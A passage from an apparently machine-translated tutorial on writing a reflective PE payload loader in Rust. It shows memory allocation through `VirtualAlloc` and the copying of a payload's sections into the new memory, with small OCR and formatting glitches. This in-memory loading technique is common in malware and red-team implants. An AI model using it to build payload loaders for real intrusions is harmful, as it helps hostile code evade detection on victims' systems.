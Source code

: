```
    far_procs: &FarProcs,
) -> Option<*mut c_void> {
    let mut base_addr_ptr = (far_procs.VirtualAlloc)(
        preferred_base_ptr,
        alloc_size,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_READWRITE,
    );

    // fallback: attempt to allocate at any address if preferred address is unavailable
    if base_addr_ptr.is_null() {
        base_addr_ptr = (far_procs.VirtualAlloc)(
            null_mut(),
            alloc_size,
            MEM_RESERVE | MEM_COMMIT,
            PAGE_READWRITE,
        );
    }

    if base_addr_ptr.is_null() {
        return None;
    }

    Some(base_addr_ptr)
}
```

  
  
复制部分  
  
NumberOfSections分配完成后，我们可以根据有效载荷的字段将有效载荷 PE 的部分和标头复制到新的内存部分IMAGE_FILE_HEADER：  
  

```
#[link_section = &#34;.text&#34;]
unsafe fn copy_pe(
    new_base_ptr: *mut c_void,
    old_base_ptr: *mut u8,
    nt_headers_ptr: *mut IMAGE_NT_HEADERS64,
) {
    let section_header_ptr = (&(*nt_headers_ptr).OptionalHeader as *const _ as usize
        + (*nt_headers_ptr).FileHeader.SizeOfOptionalHeader as usize)
        as *mut IMAGE_SECTION_HEADER;

    // PE sections one by one
    for i in0..(*nt_headers_ptr).FileHeader.NumberOfSections {
        let header_i_ref = &*(section_header_ptr.add(i as usize));

        let dst_ptr = new_base_ptr
            .cast::<u8>()
            .add(header_i_ref.VirtualAddress as usize);
        let src_ptr = (old_base_ptr as usize + header_i_ref.PointerToRawData as usize) as *const u8;
        let raw_size = header_i_ref.SizeOfRawData as usize;

        let src_data_slice = from_raw_parts(src_ptr, raw_size);

        (0..raw_size).for_each(|x| {
            let src = src_data_slice[x];
            let dst = dst_ptr.add(x);
            *dst = src;
        });
    }

    // PE headers
```